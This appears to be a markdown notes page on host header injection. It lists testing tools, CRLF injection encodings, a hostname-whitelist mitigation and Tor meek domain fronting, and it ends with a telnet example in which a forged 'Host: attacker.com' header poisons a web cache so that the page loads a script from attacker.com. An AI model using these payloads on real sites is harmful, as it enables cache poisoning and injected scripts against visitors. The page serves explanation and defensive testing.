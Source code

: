 Captured
-----------

* [PortSwigger’s Burp Suite](https://portswigger.net/burp)
* [AcuMonitor](https://www.acunetix.com/vulnerability-scanner/acumonitor-technology/)
* [Robtex](https://www.robtex.com/en/advisory/dns/net/cloudfront/d3dsacqprgcsqh/#shared_pa_ma)
* Clone any website via wget `wget -mk https://example.com`


False / Positives
----------

* Due header injection (aka host header manipulation) some Content Delivery Networks (CDN's) can be compromised and result in an FP.
* CRLF injection, as with all injected headers, one goal could be to get a response where a very bad host entry (containing `CRLF`, or `%0a%D`, that's `"\r\n"` - even `%1c` or `%1f` works!) would be reused without filtering on the response headers. Leading to headers injection in the response.
* HTTP response splitting / HTTP smuggling needs additional interception (not attackable via Browser).



Migration
----------

#### Server
If you must use the host header as a mechanism for identifying the location of the web server, it’s highly advised to make use of a whitelist of allowed hostnames.


#### Tor
[Meek](https://trac.torproject.org/projects/tor/wiki/doc/AChildsGardenOfPluggableTransports#meek) can be used to send a message to a Tor relay in a way that is almost impossible to block. 

* [Amazon CloudFront](https://trac.torproject.org/projects/tor/wiki/doc/meek#AmazonCloudFront) (meek-amazon)
* [Microsoft Azure](https://trac.torproject.org/projects/tor/wiki/doc/meek#MicrosoftAzure) (meek-azure)



Web-cache poisoning
----------

The below is an example of how an attacker could potentially exploit a host header attack by poisoning a web-cache.


```
$ telnet www.example.com 80
Trying x.x.x.x...
Connected to www.example.com.
Escape character is '^]'.
GET /index.html HTTP/1.1
Host: attacker.com

HTTP/1.1 200 OK
...

<html>
<head>
<title>Example</title>
<script src="http://attacker.com/script.js">
...
```